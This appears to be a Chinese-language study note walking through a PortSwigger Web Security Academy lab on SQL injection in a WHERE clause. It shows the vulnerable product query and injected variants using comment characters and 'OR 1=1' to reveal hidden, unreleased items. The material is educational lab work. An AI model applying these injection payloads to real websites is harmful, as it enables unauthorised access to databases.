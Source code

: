 # PortSwigger



## 服务端主题

### SQL注入

#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

给了提示了，出现漏洞的查询语句如下：

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

当然拿到一个网站，理所应当先逛一圈



直接注释掉后面的`released=1`即可，使其成为下面语句

```
SELECT * FROM products WHERE category = 'Gifts'#' AND released = 1
```

```
SELECT * FROM products WHERE category = 'Gifts' or 1=1#' AND released = 1
```



题目现在要求显示一个或者多个未发布的商品，故本题查询语句应如下：

```
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1--'  AND released = 1
```

```
SELECT * FROM products WHERE category = '123'+OR+1=1--'  AND released = 1
```



![image-20250220155914525](../../_media/image-20250220155914525.png)
